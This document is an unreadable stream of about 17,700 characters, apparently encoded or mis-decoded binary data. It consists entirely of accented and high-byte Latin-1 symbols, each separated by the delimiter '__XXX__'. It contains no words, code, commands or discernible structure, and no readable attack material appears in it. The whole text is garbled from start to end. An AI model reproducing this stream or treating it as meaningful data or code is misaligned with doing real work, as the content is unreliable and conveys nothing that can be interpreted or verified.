Ú__XXX__¬__XXX__È__XXX__¸__XXX__q__XXX__é__XXX__z__XXX__ê__XXX__½__XXX__Î__XXX__Ê__XXX__²__XXX__Æ__XXX__¾__XXX__£__XXX__Ë__XXX__Ä__XXX__£__XXX__©__XXX__f__XXX__Ý__XXX__Š__XXX__³__XXX__Ö__XXX__Ü__XXX____XXX__Ñ__XXX__–__XXX__Ë__XXX__å__XXX__€__XXX__â__XXX__u__XXX__¨__XXX__Š__XXX__´__XXX__Ý__XXX__˜__XXX__Û__XXX__·__XXX__¹__XXX____XXX__å__XXX__¤__XXX__è__XXX__k__XXX__ä__XXX__Æ__XXX__Ï__XXX__»__XXX__Ø__XXX__•__XXX__Î__XXX__z__XXX__¦__XXX__¿__XXX____XXX__Ú__XXX__{__XXX__À__XXX__¬__XXX__š__XXX__Ë__XXX__¾__XXX__Ú__XXX__µ__XXX__°__XXX__¬__XXX__Ã__XXX__ª__XXX__é__XXX__‹__XXX__¾__XXX__¿__XXX__³__XXX__Ù__XXX__´__XXX__Ï__XXX__Ù__XXX__Ž__XXX__„__XXX__Á__XXX__–__XXX__¿__XXX__^__XXX__Ý__XXX__¹__XXX__¿__XXX__é__XXX__«__XXX__¾__XXX__´__XXX__®__XXX__¾__XXX__»__XXX__ª__XXX__¦__XXX__Ÿ__XXX__À__XXX__Š__XXX__á__XXX__ê__XXX__¶__XXX__³__XXX__Ï__XXX__ž__XXX__®__XXX__¥__XXX__c__XXX__å__XXX__y__XXX__¨__XXX__™__XXX__À__XXX__È__XXX__ž__XXX__š__XXX____XXX__–__XXX__Œ__XXX__¼__XXX__c__XXX__¯__XXX__š__XXX__â__XXX__¸__XXX__Ø__XXX__¿__XXX__™__XXX__¾__XXX__›__XXX__·__XXX__Í__XXX__Ð__XXX__§__XXX__¯__XXX__…__XXX__«__XXX__¼__XXX__Ë__XXX__ë__XXX__ž__XXX__»__XXX__Ò__XXX__«__XXX__É__XXX__µ__XXX__c__XXX__Ì__XXX__z__XXX__É__XXX__–__XXX__¯__XXX__Ä__XXX__Ü__XXX__•__XXX__·__XXX__£__XXX__…__XXX__¯__XXX__™__XXX__®__XXX__e__XXX__à__XXX__½__XXX__Ö__XXX__¤__XXX__Æ__XXX__»__XXX__™__XXX__¿__XXX__¥__XXX__¡__XXX__„__XXX__¢__XXX__¦__XXX__Ê__XXX__Ã__XXX__É__XXX__¤__XXX__¦__XXX____XXX__Þ__XXX__ª__XXX__Œ__XXX__®__XXX__ª__XXX__½__XXX__k__XXX__À__XXX__—__XXX__Ó__XXX__á__XXX__Þ__XXX__—__XXX__—__XXX__‹__XXX__¸__XXX__Æ__XXX__ƒ__XXX__ð__XXX__~__XXX__á__XXX__Ä__XXX__ž__XXX__Ä__XXX__Þ__XXX__¿__XXX__–__XXX____XXX__·__XXX__Í__XXX__w__XXX__ï__XXX__˜__XXX__¥__XXX__º__XXX__×__XXX__Ì__XXX__š__XXX__×__XXX__™__XXX__Š__XXX__œ__XXX__Á__XXX__ __XXX__¨__XXX__¡__XXX__É__XXX__½__XXX__Ë__XXX__¨__XXX__®__XXX____XXX__´__XXX__º__XXX____XXX__â__XXX__˜__XXX__è__XXX__^__XXX__Ë__XXX__µ__XXX__©__XXX__ä__XXX__Ö__XXX__Ø__XXX__¶__XXX__‹__XXX__½__XXX__ã__XXX__ž__XXX__Ï__XXX__¢__XXX__§__XXX__´__XXX__²__XXX__»__XXX__Ý__XXX__Ï__XXX__Û__XXX__¯__XXX__ª__XXX__×__XXX__c__XXX__Û__XXX__f__XXX__Ü__XXX__«__XXX__Ø__XXX__Ô__XXX__ª__XXX__¾__XXX__–__XXX__¶__XXX__˜__XXX__Õ__XXX__Š__XXX__º__XXX____XXX__ë__XXX__›__XXX__Á__XXX__Ö__XXX__—__XXX__Ç__XXX__Í__XXX__¡__XXX____XXX__—__XXX____XXX__­__XXX__k__XXX__Õ__XXX__¤__XXX__á__XXX__ì__XXX__Ú__XXX__§__XXX__Í__XXX__™__XXX__™__XXX__Ÿ__XXX__”__XXX__Ç__XXX__‰__XXX__ä__XXX__Æ__XXX__À__XXX__ä__XXX__Ó__XXX__Ù__XXX__Ê__XXX__£__XXX__…__XXX__Æ__XXX__¥__XXX__Þ__XXX__¤__XXX__Ö__XXX__˜__XXX__Ô__XXX__Þ__XXX__Ü__XXX__ß__XXX__Ê__XXX__­__XXX__ª__XXX__¶__XXX__Š__XXX__ð__XXX____XXX__×__XXX__†__XXX__Þ__XXX__è__XXX__Ì__XXX__Ü__XXX__Ó__XXX__“__XXX__Ÿ__XXX__º__XXX__›__XXX__æ__XXX__l__XXX__¶__XXX__¸__XXX__—__XXX__Ì__XXX__ž__XXX__·__XXX__Î__XXX__¿__XXX__Ê__XXX__—__XXX__ž__XXX__Ù__XXX__­__XXX__À__XXX__´__XXX__º__XXX__É__XXX__§__XXX__¯__XXX__º__XXX__~__XXX__Æ__XXX__ã__XXX__…__XXX__«__XXX__©__XXX__½__XXX__Ê__XXX__¿__XXX__Þ__XXX__Ú__XXX__¼__XXX__¨__XXX__º__XXX__ž__XXX__Í__XXX__q__XXX__é__XXX__i__XXX__ª__XXX__ª__XXX__¸__XXX__Ù__XXX__Ó__XXX__œ__XXX__Ê__XXX__º__XXX__®__XXX__Î__XXX__“__XXX__Ç__XXX__†__XXX__é__XXX__Ÿ__XXX__³__XXX__É__XXX__±__XXX__Ò__XXX__¨__XXX__€__XXX__¾__XXX__¿__XXX__‘__XXX__¹__XXX____XXX__¿__XXX__¾__XXX__Ë__XXX__¨__XXX__®__XXX__®__XXX__ª__XXX__—__XXX__Ë__XXX__Ü__XXX__¦__XXX__Ì__XXX__h__XXX__Ì__XXX__¥__XXX__¬__XXX__µ__XXX__Ì__XXX__›__XXX__®__XXX__y__XXX__Ê__XXX__Ñ__XXX__{__XXX__®__XXX__€__XXX____XXX__¶__XXX__Ê__XXX__º__XXX__ž__XXX__Ü__XXX__°__XXX__™__XXX__ž__XXX__Ò__XXX__£__XXX__Å__XXX__£__XXX__¡__XXX__ˆ__XXX__â__XXX__ª__XXX__×__XXX__Ï__XXX__µ__XXX__z__XXX__‹__XXX__Þ__XXX__s__XXX__¹__XXX__x__XXX__¾__XXX__Í__XXX____XXX__Õ__XXX__¾__XXX__Ü__XXX__˜__XXX__³__XXX__ž__XXX__ã__XXX__q__XXX__Ù__XXX__l__XXX__â__XXX__Ê__XXX__Õ__XXX__¤__XXX__È__XXX__°__XXX__¨__XXX__ž__XXX____XXX__Ø__XXX__ __XXX__°__XXX__v__XXX__È__XXX__•__XXX____XXX__¡__XXX__—__XXX__Ò__XXX__Î__XXX__Š__XXX__µ__XXX__ß__XXX__‰__XXX__¿__XXX__©__XXX__Ê__XXX__É__XXX__Ð__XXX__Ö__XXX__Ø__XXX__¬__XXX__Ñ__XXX__}__XXX__Ÿ__XXX__Î__XXX__…__XXX__½__XXX__w__XXX__Ü__XXX__É__XXX__ß__XXX__å__XXX____XXX__Ô__XXX__Ó__XXX__€__XXX__Â__XXX__Í__XXX____XXX__¿__XXX__£__XXX__è__XXX__¿__XXX__Á__XXX__·__XXX__É__XXX__Õ__XXX__±__XXX__·__XXX__¨__XXX__Ô__XXX__u__XXX__ä__XXX__ __XXX__Ã__XXX__‰__XXX__Í__XXX__½__XXX__¿__XXX__Í__XXX__º__XXX__Ÿ__XXX__¾__XXX__®__XXX__~__XXX__§__XXX__œ__XXX__ç__XXX__‚__XXX__²__XXX__º__XXX__×__XXX__Ö__XXX__§__XXX____XXX__ª__XXX__Ä__XXX__š__XXX__ñ__XXX__”__XXX__×__XXX__Å__XXX__œ__XXX__Þ__XXX__µ__XXX__ß__XXX__š__XXX__£__XXX__©__XXX__Î__XXX__`__XXX__å__XXX__†__XXX__µ__XXX__”__XXX__à__XXX__¾__XXX__”__XXX__Õ__XXX__Í__XXX__˜__XXX__Ì__XXX__ã__XXX__s__XXX__ä__XXX__¬__XXX__ß__XXX__”__XXX____XXX__º__XXX__Ê__XXX__É__XXX__“__XXX__»__XXX__‡__XXX__ __XXX__†__XXX__à__XXX__¡__XXX__é__XXX__Å__XXX__·__XXX__Ü__XXX__Û__XXX__™__XXX__Î__XXX__ __XXX__È__XXX____XXX__‚__XXX__å__XXX__k__XXX__Û__XXX__¢__XXX__¬__XXX__á__XXX__¸__XXX__Ì__XXX__µ__XXX__ž__XXX__¹__XXX__²__XXX__˜__XXX__Ï__XXX__z__XXX__å__XXX__Á__XXX__Ù__XXX__ß__XXX__É__XXX__×__XXX__ª__XXX__¯__XXX__¡__XXX__½__XXX__t__XXX__Ç__XXX__z__XXX__¼__XXX__•__XXX__¸__XXX__å__XXX__×__XXX__Ë__XXX__¾__XXX__«__XXX__¨__XXX__å__XXX____XXX__¢__XXX__Š__XXX____XXX__‡__XXX__¶__XXX__ê__XXX__Ô__XXX__š__XXX__º__XXX__Ž__XXX__¨__XXX__¯__XXX__x__XXX__¿__XXX__¢__XXX__Ý__XXX__‰__XXX__Â__XXX__¦__XXX__Ë__XXX__Î__XXX__Å__XXX__‘__XXX__Œ__XXX__¡__XXX__Ÿ__XXX__Ç__XXX__^__XXX__¹__XXX__¡__XXX__“__XXX__ã__XXX__·__XXX__Û__XXX____XXX__¼__XXX__¹__XXX__½__XXX__ƒ__XXX__¨__XXX__t__XXX__Ù__XXX__·__XXX__Ê__XXX__ê__XXX__Ø__XXX__É__XXX__™__XXX__·__XXX__¾__XXX__Õ__XXX__¨__XXX__ß__XXX__{__XXX__»__XXX__¥__XXX__¹__XXX__Ú__XXX__Þ__XXX__¶__XXX__º__XXX__·__XXX__™__XXX__ž__XXX__~__XXX__à__XXX__w__XXX____XXX__‹__XXX__›__XXX__Â__XXX__´__XXX__ž__XXX__Ô__XXX____XXX__Î__XXX__Ÿ__XXX__g__XXX__ê__XXX__‹__XXX__¦__XXX__¼__XXX__®__XXX__ã__XXX__³__XXX__Ó__XXX__Æ__XXX__¹__XXX__ˆ__XXX__À__XXX__b__XXX__ê__XXX__y__XXX__Õ__XXX__‹__XXX__˜__XXX____XXX__Ç__XXX__Ë__XXX__µ__XXX__¬__XXX__¾__XXX____XXX__a__XXX__º__XXX__c__XXX__é__XXX__Ê__XXX__™__XXX__Ö__XXX__˜__XXX__›__XXX__Ï__XXX__°__XXX__¾__XXX__¾__XXX__r__XXX__æ__XXX__ž__XXX__Æ__XXX__µ__XXX__×__XXX__Ö__XXX__Ê__XXX__Û__XXX__Ù__XXX____XXX__Ã__XXX____XXX__Š__XXX__«__XXX__¬__XXX__Â__XXX__­__XXX__Ÿ__XXX__£__XXX__Ý__XXX__Î__XXX__¨__XXX__À__XXX__»__XXX__Â__XXX__‡__XXX__ì__XXX____XXX__Þ__XXX__¦__XXX__Â__XXX__Ä__XXX__§__XXX__¶__XXX__¨__XXX__Â__XXX__­__XXX__Í__XXX_____XXX__É__XXX__v__XXX__¹__XXX__…__XXX__Ø__XXX__ß__XXX__µ__XXX__¿__XXX__Ù__XXX__’__XXX__Ã__XXX__Æ__XXX__x__XXX__Ì__XXX__§__XXX__ë__XXX__Ã__XXX__˜__XXX__©__XXX__¸__XXX__Ë__XXX__œ__XXX__±__XXX__ƒ__XXX__â__XXX__~__XXX__å__XXX__|__XXX__¤__XXX__—__XXX__ __XXX__¥__XXX__©__XXX__ß__XXX__É__XXX__Ã__XXX__Œ__XXX__¡__XXX__~__XXX__î__XXX__£__XXX__ä__XXX__½__XXX__Ú__XXX__æ__XXX__Ý__XXX__Þ__XXX__Þ__XXX__¡__XXX__¿__XXX__½__XXX__£__XXX__¦__XXX__b__XXX__¾__XXX__‰__XXX__Ì__XXX__Ù__XXX__©__XXX__ß__XXX__¥__XXX____XXX__¸__XXX__ã__XXX__™__XXX__¦__XXX__x__XXX__Æ__XXX__…__XXX__²__XXX__Â__XXX__Ñ__XXX____XXX__É__XXX__±__XXX__‹__XXX__¶__XXX__b__XXX__§__XXX__i__XXX__â__XXX__Í__XXX__®__XXX__¢__XXX__»__XXX__¿__XXX__™__XXX__¯__XXX__­__XXX__Ý__XXX__—__XXX__¨__XXX__^__XXX__ã__XXX__ __XXX__Î__XXX__³__XXX__Ý__XXX__Ë__XXX__™__XXX__}__XXX__»__XXX__­__XXX____XXX__Ü__XXX__–__XXX__ë__XXX__Š__XXX__·__XXX__¢__XXX__Ö__XXX__¸__XXX__Ñ__XXX__•__XXX__…__XXX__¤__XXX__e__XXX__Ñ__XXX__”__XXX__¦__XXX__È__XXX__¼__XXX__¤__XXX__Ó__XXX__Ý__XXX__­__XXX__{__XXX__Ë__XXX__á__XXX__ __XXX__á__XXX__u__XXX__Ê__XXX__»__XXX__Ö__XXX__Å__XXX__¯__XXX__¿__XXX__Æ__XXX__¶__XXX____XXX__Ú__XXX__[__XXX__Ø__XXX__t__XXX__»__XXX__¦__XXX__Ý__XXX__¡__XXX__È__XXX__¯__XXX__Þ__XXX__¯__XXX__®__XXX__±__XXX__›__XXX__å__XXX__–__XXX__È__XXX__Ÿ__XXX__š__XXX__ß__XXX__Ü__XXX__®__XXX__¦__XXX__°__XXX__½__XXX__Ò__XXX__|__XXX__é__XXX__¨__XXX__Ú__XXX__š__XXX__Ù__XXX__·__XXX__Ñ__XXX__Þ__XXX__¾__XXX__›__XXX__¾__XXX__³__XXX__„__XXX__¯__XXX__d__XXX__Û__XXX__¬__XXX__½__XXX__ß__XXX__»__XXX__Ø__XXX__»__XXX__¯__XXX__¹__XXX__£__XXX__¦__XXX__Å__XXX__ª__XXX__À__XXX__Í__XXX__˜__XXX__Ä__XXX__×__XXX__™__XXX__Ë__XXX__—__XXX__š__XXX__Ö__XXX____XXX__È__XXX__¥__XXX__É__XXX__Ÿ__XXX__©__XXX__Ê__XXX__˜__XXX__±__XXX__È__XXX__œ__XXX__º__XXX__¡__XXX__’__XXX__º__XXX__›__XXX__µ__XXX__ˆ__XXX__Â__XXX__´__XXX__ª__XXX__§__XXX__Ï__XXX__ __XXX__Ã__XXX__›__XXX__b__XXX__à__XXX__ª__XXX__Ø__XXX__¦__XXX__Û__XXX__Å__XXX__Õ__XXX__š__XXX__¶__XXX__¾__XXX__›__XXX__µ__XXX__t__XXX__À__XXX__v__XXX__Æ__XXX__Š__XXX__Ï__XXX__½__XXX__Ô__XXX__²__XXX__Æ__XXX__•__XXX__£__XXX__Û__XXX__t__XXX__¹__XXX__h__XXX__Ó__XXX__©__XXX__Á__XXX__À__XXX__Ô__XXX__»__XXX__±__XXX__»__XXX__Ä__XXX__µ__XXX__e__XXX__á__XXX__z__XXX__¥__XXX__¬__XXX__¿__XXX__Ë__XXX__¯__XXX__Ð__XXX__º__XXX__|__XXX__›__XXX__µ__XXX__‰__XXX__á__XXX__¦__XXX__ä__XXX__·__XXX__“__XXX__Å__XXX__Õ__XXX__½__XXX__Ð__XXX__Á__XXX__Ä__XXX__±__XXX__Š__XXX__Ï__XXX__k__XXX__é__XXX__È__XXX__Ö__XXX__è__XXX__•__XXX__È__XXX__¬__XXX__–__XXX__Ã__XXX__—__XXX__—__XXX__¢__XXX__¬__XXX__¾__XXX__¦__XXX__«__XXX__¦__XXX__Ì__XXX__Ö__XXX__¦__XXX__¸__XXX__Í__XXX__œ__XXX__h__XXX__ñ__XXX__™__XXX____XXX__Œ__XXX__·__XXX____XXX__Ð__XXX__Ú__XXX__Î__XXX__­__XXX__…__XXX__›__XXX__s__XXX__á__XXX__„__XXX__Ë__XXX__º__XXX__Ø__XXX__Å__XXX__Õ__XXX__¿__XXX__½__XXX__‹__XXX__Æ__XXX__¤__XXX__†__XXX__¹__XXX__f__XXX__È__XXX__ˆ__XXX__“__XXX__Å__XXX__Ó__XXX__Ò__XXX__Ó__XXX__¶__XXX__©__XXX__á__XXX__v__XXX__ß__XXX__¤__XXX__À__XXX__Œ__XXX__´__XXX__à__XXX__Ö__XXX__±__XXX__©__XXX__¹__XXX__¾__XXX__å__XXX__˜__XXX__ì__XXX__…__XXX__Â__XXX__µ__XXX__×__XXX__Û__XXX__½__XXX__¦__XXX__Ô__XXX__|__XXX__ž__XXX__Ú__XXX__[__XXX__Ì__XXX__y__XXX__À__XXX__Â__XXX__Ù__XXX__É__XXX__¿__XXX__«__XXX__¼__XXX__™__XXX__¡__XXX__º__XXX__ƒ__XXX__Ñ__XXX__e__XXX__é__XXX__»__XXX__¯__XXX__Á__XXX__Ý__XXX__½__XXX__×__XXX____XXX__¢__XXX__å__XXX__ __XXX__¢__XXX__ˆ__XXX__å__XXX__Ê__XXX__Ÿ__XXX__É__XXX__¶__XXX__˜__XXX__Ï__XXX__½__XXX__À__XXX__®__XXX__™__XXX__¢__XXX__©__XXX__ê__XXX__¢__XXX__ž__XXX__Ì__XXX__•__XXX__·__XXX__ª__XXX____XXX__ˆ__XXX__®__XXX__„__XXX__æ__XXX__„__XXX__ã__XXX__»__XXX__·__XXX__È__XXX__¬__XXX__­__XXX__¨__XXX__“__XXX__—__XXX__¾__XXX__w__XXX__ì__XXX__v__XXX__ß__XXX__¨__XXX__ __XXX__Ê__XXX__ª__XXX__È__XXX__”__XXX__Ž__XXX__Ÿ__XXX__ž__XXX____XXX__ã__XXX__›__XXX__¼__XXX__™__XXX__Á__XXX__Ü__XXX__²__XXX____XXX__™__XXX__—__XXX__¡__XXX__à__XXX__“__XXX__Ú__XXX__|__XXX__à__XXX__»__XXX__¶__XXX__Å__XXX__Æ__XXX__È__XXX__¹__XXX__›__XXX__¬__XXX__Ð__XXX__h__XXX__Ä__XXX__†__XXX__ß__XXX__Â__XXX__©__XXX__¿__XXX__¾__XXX____XXX__¬__XXX__x__XXX__Œ__XXX__®__XXX__š__XXX__¯__XXX__y__XXX__Ý__XXX__©__XXX__²__XXX__à__XXX__¼__XXX__¿__XXX__™__XXX__³__XXX__˜__XXX__¾__XXX__€__XXX__Å__XXX__h__XXX__µ__XXX__Ÿ__XXX__ª__XXX__Ç__XXX__ª__XXX__É__XXX____XXX__Œ__XXX__½__XXX__®__XXX__€__XXX__ª__XXX__‹__XXX__ë__XXX__¦__XXX__Ù__XXX__Â__XXX__Ô__XXX__ß__XXX__Õ__XXX__¿__XXX__¹__XXX__œ__XXX__x__XXX__æ__XXX__ª__XXX__µ__XXX__¼__XXX__¸__XXX__Ã__XXX__Þ__XXX__«__XXX__»__XXX__}__XXX__¹__XXX__·__XXX__‘__XXX__Ñ__XXX__ª__XXX__§__XXX__¬__XXX__Ê__XXX__¼__XXX__Õ__XXX__¨__XXX__É__XXX__–__XXX__­__XXX__Ô__XXX__Š__XXX__¯__XXX__x__XXX__¢__XXX__§__XXX__¿__XXX__á__XXX__¶__XXX__ª__XXX__²__XXX__y__XXX__¹__XXX__Ã__XXX__a__XXX__Þ__XXX__¦__XXX__¨__XXX__‡__XXX__Ó__XXX__«__XXX__Ö__XXX__Ü__XXX__Ý__XXX__¶__XXX__Œ__XXX__Å__XXX__Š__XXX__Ì__XXX__§__XXX__ä__XXX__‹__XXX__¼__XXX__§__XXX__È__XXX__»__XXX__Ù__XXX__œ__XXX__Ÿ__XXX__Ä__XXX__¡__XXX__Í__XXX__Ÿ__XXX__Ä__XXX__˜__XXX__Â__XXX__½__XXX__§__XXX__œ__XXX__×__XXX____XXX__Æ__XXX__¶__XXX__œ__XXX__Ð__XXX__†__XXX__×__XXX__Ã__XXX__Ô__XXX__ë__XXX__”__XXX__ž__XXX__˜__XXX__°__XXX__®__XXX__Ø__XXX__w__XXX__í__XXX__l__XXX__Þ__XXX__–__XXX__¹__XXX__Ó__XXX__›__XXX__«__XXX__È__XXX__Š__XXX__¼__XXX__ __XXX__e__XXX__Ú__XXX__­__XXX__µ__XXX__ª__XXX__à__XXX__Ô__XXX__Ê__XXX__—__XXX__­__XXX__—__XXX__Ì__XXX__µ__XXX__[__XXX__«__XXX__¨__XXX__Ç__XXX__~__XXX__©__XXX__¦__XXX__Ù__XXX__¾__XXX__š__XXX__«__XXX__º__XXX__®__XXX__c__XXX__¨__XXX____XXX__ä__XXX__¦__XXX__Ë__XXX__ê__XXX__©__XXX__œ__XXX__œ__XXX__°__XXX__Á__XXX__À__XXX____XXX__Í__XXX__–__XXX__È__XXX__Â__XXX__Ï__XXX__Ê__XXX__•__XXX__Ê__XXX__¸__XXX__}__XXX__¥__XXX__Î__XXX__©__XXX__Î__XXX__d__XXX__¡__XXX__Í__XXX__Ü__XXX__É__XXX__§__XXX__™__XXX__š__XXX__Ž__XXX__À__XXX__²__XXX__r__XXX__ê__XXX__d__XXX__½__XXX__¬__XXX__Ò__XXX__Ü__XXX__»__XXX__Ð__XXX__Ï__XXX__“__XXX__»__XXX__Ô__XXX__u__XXX__ç__XXX____XXX__ß__XXX__›__XXX__º__XXX__¤__XXX__ß__XXX__×__XXX__–__XXX__ž__XXX__˜__XXX__­__XXX__¢__XXX__Ø__XXX__Ÿ__XXX__æ__XXX__À__XXX__Ê__XXX__à__XXX__Ç__XXX__Ú__XXX__¶__XXX__ª__XXX__ƒ__XXX__º__XXX__a__XXX__¯__XXX__‚__XXX__Ý__XXX__„__XXX__Á__XXX__Ý__XXX__¼__XXX__Ð__XXX__¬__XXX__˜__XXX__¬__XXX__Ü__XXX__ˆ__XXX__Ð__XXX__~__XXX__Ø__XXX__Ä__XXX__Ö__XXX__¤__XXX__Ú__XXX__Ó__XXX__²__XXX__º__XXX__º__XXX__¥__XXX__b__XXX__Ä__XXX__u__XXX__¾__XXX__›__XXX__©__XXX__ã__XXX__Æ__XXX__É__XXX__®__XXX__•__XXX____XXX__£__XXX__d__XXX__¿__XXX__{__XXX____XXX__Í__XXX__¼__XXX__¹__XXX__¿__XXX__¹__XXX__Ñ__XXX__ª__XXX__Ã__XXX__à__XXX__e__XXX__Ã__XXX__‚__XXX__»__XXX__ƒ__XXX__Ê__XXX__È__XXX__´__XXX__¼__XXX__›__XXX__}__XXX__Œ__XXX__Ú__XXX__x__XXX__¿__XXX__£__XXX__Ê__XXX__¬__XXX__´__XXX__Ù__XXX__º__XXX__Ç__XXX__¬__XXX__”__XXX__¢__XXX__Ô__XXX____XXX__Á__XXX__¢__XXX__¦__XXX__Å__XXX__­__XXX__¸__XXX____XXX__Ò__XXX__“__XXX__µ__XXX__—__XXX__Ý__XXX__•__XXX__ð__XXX__­__XXX__¾__XXX__–__XXX__Ó__XXX__´__XXX__Ü__XXX__È__XXX__¹__XXX____XXX__Ä__XXX__Ô__XXX__h__XXX__Þ__XXX__”__XXX__¶__XXX__¸__XXX__®__XXX__Ì__XXX__–__XXX__–__XXX__›__XXX__¢__XXX__º__XXX__×__XXX__‰__XXX__ç__XXX__ __XXX__è__XXX__Æ__XXX__½__XXX__ç__XXX__µ__XXX__¼__XXX__Ê__XXX__ __XXX__Í__XXX__Í__XXX__€__XXX__á__XXX__‚__XXX__¼__XXX__Å__XXX__Ì__XXX__ª__XXX__©__XXX__Æ__XXX__–__XXX__ª__XXX__Ê__XXX__Â__XXX__ž__XXX__Á__XXX__›__XXX__Á__XXX__È__XXX__Ý__XXX____XXX__Ù__XXX__™__XXX__²__XXX__£__XXX__‹__XXX__°__XXX__}__XXX__¢__XXX__„__XXX__Ê__XXX__ˆ__XXX__ __XXX__å__XXX__°__XXX__³__XXX__¾__XXX__¹__XXX__›__XXX__æ__XXX__’__XXX__æ__XXX__¤__XXX__ª__XXX__~__XXX__Ì__XXX__Ì__XXX__²__XXX__´__XXX__Ö__XXX__¸__XXX__Ã__XXX__×__XXX__„__XXX__ç__XXX__¦__XXX__Õ__XXX__¦__XXX__ž__XXX__Ù__XXX__¨__XXX__Ô__XXX__±__XXX__’__XXX__›__XXX____XXX__i__XXX__Î__XXX__†__XXX__Ó__XXX__Ë__XXX__¾__XXX__ê__XXX__™__XXX__–__XXX__´__XXX____XXX__ª__XXX__ä__XXX__v__XXX__ç__XXX__g__XXX__¢__XXX__¥__XXX__Á__XXX__¤__XXX__¿__XXX____XXX__›__XXX__´__XXX__£__XXX__¥__XXX__w__XXX__­__XXX__¤__XXX__ª__XXX__Ê__XXX__Ï__XXX__æ__XXX__Û__XXX__¶__XXX__²__XXX__‚__XXX__–__XXX__ä__XXX__c__XXX__¢__XXX__|__XXX__Ó__XXX__É__XXX__®__XXX__¼__XXX__²__XXX__¦__XXX__²__XXX__t__XXX__Á__XXX__å__XXX____XXX__È__XXX__^__XXX__Ø__XXX__È__XXX__á__XXX__Ç__XXX__Ñ__XXX__Û__XXX__©__XXX____XXX__Š__XXX__Þ__XXX__ž__XXX__¿__XXX__¬__XXX__§__XXX__‚__XXX__¸__XXX__Ù__XXX__¹__XXX__š__XXX__Æ__XXX__¢__XXX__™__XXX__×__XXX__†__XXX__Ê__XXX__f__XXX__´__XXX__¢__XXX__Ì__XXX__·__XXX__µ__XXX__È__XXX__œ__XXX__°__XXX__Ÿ__XXX__Ã__XXX__™__XXX__§__XXX__f__XXX__É__XXX__˜__XXX__ª__XXX__á__XXX__¸__XXX__®__XXX__Ç__XXX__}__XXX__Š__XXX__æ__XXX__}__XXX__ë__XXX__›__XXX__½__XXX__–__XXX__¡__XXX__½__XXX__Ú__XXX__–__XXX__Ñ__XXX__ž__XXX__—__XXX__œ__XXX__|__XXX__Ü__XXX__Ÿ__XXX__ã__XXX__Ä__XXX__¼__XXX__¶__XXX__Ù__XXX__È__XXX__Æ__XXX__“__XXX____XXX__ __XXX__b__XXX__Ü__XXX__˜__XXX__¢__XXX__¡__XXX__Ú__XXX__Ú__XXX__µ__XXX__ß__XXX__¬__XXX__¶__XXX__–__XXX__¹__XXX__‰__XXX__ï__XXX__§__XXX__¥__XXX__Ÿ__XXX__¶__XXX__Ê__XXX__Ô__XXX__´__XXX__º__XXX__Á__XXX__ž__XXX__›__XXX__h__XXX__½__XXX__~__XXX__ß__XXX__´__XXX__®__XXX__Ü__XXX__Ö__XXX__¨__XXX__Ñ__XXX__¡__XXX__Ÿ__XXX__¿__XXX__‚__XXX__á__XXX__¬__XXX__×__XXX__ª__XXX__Ô__XXX__Ã__XXX__­__XXX__»__XXX__Ü__XXX__½__XXX__ž__XXX__Î__XXX____XXX__í__XXX__˜__XXX__º__XXX__–__XXX__Ü__XXX__¹__XXX__Î__XXX__¿__XXX__¾__XXX__²__XXX__‹__XXX__Þ__XXX__c__XXX__Ø__XXX__~__XXX__«__XXX__´__XXX__ž__XXX__Â__XXX__ß__XXX__É__XXX__­__XXX__²__XXX__™__XXX__Ø__XXX__b__XXX__à__XXX__h__XXX__È__XXX__Ê__XXX__Ú__XXX__Å__XXX__©__XXX__Ç__XXX__¥__XXX__œ__XXX____XXX__»__XXX__¡__XXX__¿__XXX__—__XXX__é__XXX__”__XXX__Â__XXX__Æ__XXX__Ë__XXX__±__XXX__Ø__XXX__‚__XXX__¾__XXX__Å__XXX__i__XXX__Ë__XXX__f__XXX__¿__XXX__©__XXX__Ö__XXX____XXX__¨__XXX__Ö__XXX__Å__XXX__{__XXX____XXX__Å__XXX__•__XXX__ñ__XXX__„__XXX__Ê__XXX__Å__XXX__½__XXX__Ì__XXX__Ë__XXX__Ö__XXX__Í__XXX__¸__XXX__¹__XXX__à__XXX__c__XXX__à__XXX__‚__XXX__£__XXX__˜__XXX__Ñ__XXX__è__XXX__Ñ__XXX__º__XXX__“__XXX__½__XXX__§__XXX__¯__XXX__z__XXX__Ë__XXX__g__XXX__·__XXX__­__XXX__œ__XXX__©__XXX__Ü__XXX__É__XXX__Ù__XXX__¡__XXX__¬__XXX__Ô__XXX__`__XXX__ã__XXX__‚__XXX__µ__XXX__Ÿ__XXX__¼__XXX__Ã__XXX__®__XXX__Õ__XXX__µ__XXX____XXX__¥__XXX__Ü__XXX__y__XXX__Í__XXX__y__XXX__Õ__XXX__Ã__XXX__Ï__XXX__Õ__XXX__«__XXX__»__XXX__²__XXX__¬__XXX__À__XXX__Ò__XXX____XXX__¾__XXX__¥__XXX__ë__XXX__”__XXX__»__XXX__Ë__XXX__¼__XXX__ª__XXX__¬__XXX__y__XXX__œ__XXX__º__XXX__z__XXX__æ__XXX__œ__XXX__¾__XXX__Š__XXX__Ë__XXX__é__XXX__˜__XXX__¾__XXX__È__XXX__y__XXX__¥__XXX__Ö__XXX__{__XXX__Ù__XXX____XXX__¹__XXX__Œ__XXX__á__XXX__Ô__XXX__±__XXX__¹__XXX__—__XXX__«__XXX__Ä__XXX__¥__XXX__d__XXX__ì__XXX__u__XXX__Ä__XXX__¦__XXX__™__XXX__á__XXX__¶__XXX__Î__XXX__Î__XXX__¾__XXX__ˆ__XXX__À__XXX__¤__XXX__¦__XXX__€__XXX__Ä__XXX__ž__XXX__À__XXX__â__XXX__®__XXX__Í__XXX__–__XXX__¸__XXX__­__XXX____XXX__d__XXX__ð__XXX__w__XXX__¤__XXX__Í__XXX__®__XXX__ê__XXX__Î__XXX__ª__XXX__Õ__XXX__Á__XXX__¥__XXX__¶__XXX_____XXX__ß__XXX__¨__XXX__Þ__XXX__¨__XXX__µ__XXX__Ê__XXX__–__XXX__—__XXX__Æ__XXX____XXX__Ÿ__XXX__¿__XXX__—__XXX__Þ__XXX__¤__XXX__Õ__XXX__¾__XXX__¾__XXX__Ô__XXX__¹__XXX__°__XXX__Û__XXX__µ__XXX__Ÿ__XXX__Ò__XXX__•__XXX__Ñ__XXX__ª__XXX__Ê__XXX__Ë__XXX__°__XXX__å__XXX__³__XXX__°__XXX__±__XXX__°__XXX__•__XXX__—__XXX__¤__XXX__¾__XXX__–__XXX__Ý__XXX__È__XXX__¿__XXX__¦__XXX__Î__XXX__½__XXX__Ò__XXX__¿__XXX____XXX__ã__XXX__y__XXX__ì__XXX__­__XXX__Ë__XXX__~__XXX__ß__XXX__É__XXX__Ø__XXX__¬__XXX__Î__XXX__|__XXX__¢__XXX__Ñ__XXX__›__XXX__¾__XXX__¥__XXX__Þ__XXX__Œ__XX